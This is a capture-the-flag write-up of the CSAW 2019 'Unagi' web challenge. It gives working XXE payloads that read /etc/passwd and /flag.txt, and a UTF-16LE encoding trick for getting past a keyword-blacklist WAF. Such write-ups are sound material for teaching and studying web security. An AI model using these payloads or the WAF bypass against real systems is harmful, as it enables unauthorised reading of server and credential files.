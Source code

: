 # Unagi writeup - 200pts

## What we have
The chall provide us with a link to a very basic website of 4 pages:

![Screenshot of the challenge website](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/Unagi-200/Screenshots/1.jpg?raw=true)

So we know the flag is located at `/flag.txt`.
In the upload page we can download this XML file:

    <?xml version='1.0'?>
	<users>
		<user>
			<username>alice</username>
			<password>passwd1</password>
			<name>Alice</name>
			<email>alice@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
		<user>
			<username>bob</username>
			<password>passwd2</password>
			<name> Bob</name>
			<email>bob@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
	</users>

And uploading it, we get this result:

![Screenshot after the sample.xml upload](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/Unagi-200/Screenshots/2.jpg?raw=true)

## About the vulnerability
This seems to be the classic situation in which it is possible to exploit an XML External Entity ([XXE](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)) vulnerability.

In these cases the first thing I usually try is the following payload to read a file (for example `/etc/passwd`, which is accessible by any user on linux):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTITY flag SYSTEM "file:///etc/passwd">
	]>
	<users>
	    <user>
	        <username>AAA</username>
	        <password>BBB</password>
	        <name>&flag;</name>
	        <email>CCC</email>  
	        <group>DDD</group>
	    </user>
	</users>

But there's a Web Application Firewall (WAF) that is blocking our file:

![Screenshot of the WAF blocking our exploit](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/Unagi-200/Screenshots/3.jpg?raw=true)

## The WAF
Trying to remove or change some things, I realized that the WAF checks that the content of the file does not correspond to a blacklist of words.

For example, the following code (I just added an "X" inside "ENTITY" , "SYSTEM" and "file") is not blocked (but it no longer works):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTXITY flag SYSXTEM "fiXle:///etc/passwd">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>&flag;</name>
			<email>CCC</email>  
			<group>DDD</group>
		</user>
	</users>

Two options to bypass the WAF:
- don't use blacklisted words (maybe impossible)
- [play with encodings](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0#a3ca)

I just tried to save the original payload (after adding `encoding='utf-16'` to the XML opening tag) in UFT-16LE (I used Notepad++ on Windows, but I'm sure that other editors can make this too; for example I've seen someone doing this challenge with VSCode and others with Gedit and [some terminal commands](https://stackoverflow.com/questions/64860/best-way-to-convert-text-files-between-character-sets)).

Uploading it, we can finally read `/etc/passwd`... Or not?

![Output is truncated, screenshot](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/Unagi-200/Screenshots/4.jpg?raw=true)

Argh, our output is truncated!

At this point, I propose two solutions.

## Solution #1 - Look for another output field
I checked all the others output fields and... They were all truncated.

After a while, I realized that the "User" page (look at the first screenshot of this writeup) showed a field named "intro", which is not used inside the "example format" downloaded.

Maybe it isn't truncated? Let's check, this time trying to obtain the flag file.

(Remember to save this as UTF-16LE to bypass WAF)

    <?xml version='1.0' encoding="utf-16"?>
    <!DOCTYPE foo [
	    <!ENTITY file SYSTEM "file:///flag.txt">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>CCC</name>
			<email>DDD</email>
			<group>EEE</group>
			<intro>&file;</intro>
		</user>
	</users>

![Got the flag](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/Unagi-200/Screenshots/5.jpg?raw=true)

Bingo!

## Solution 2 - Out Of Band (OOB)
Coming soon; I'm writing it!
